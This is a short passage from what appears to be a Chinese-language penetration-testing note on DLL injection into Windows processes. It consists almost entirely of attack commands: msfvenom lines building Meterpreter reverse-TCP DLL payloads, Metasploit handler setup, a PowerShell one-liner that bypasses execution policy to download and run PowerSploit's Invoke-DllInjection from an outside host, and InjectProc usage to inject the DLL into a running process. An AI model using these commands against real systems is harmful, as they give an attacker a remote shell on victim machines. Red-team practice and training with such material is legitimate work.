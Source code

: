  #### Powershell
	生成DLL
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.105 LPORT=6666 -f dll -o /var/www/html/x.dll
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>Powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.105/powersploit/CodeExecution/Invoke-DllInjection.ps1'); Invoke-DllInjection -ProcessID pid -Dll .\1.dll"
 #### InjectProc
	生成DLL
	#msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -f dll -o /var/www/html/qq.dll
	#use exploit/multi/handler
	#set payload windows/x64/meterpreter/reverse_tcp
	使用如下命令注入进程
	>InjectProc.exe dll_inj qq.dll xx.exe(存在的进程)
![image](/assets/Pentest_Note/master/img/477.png)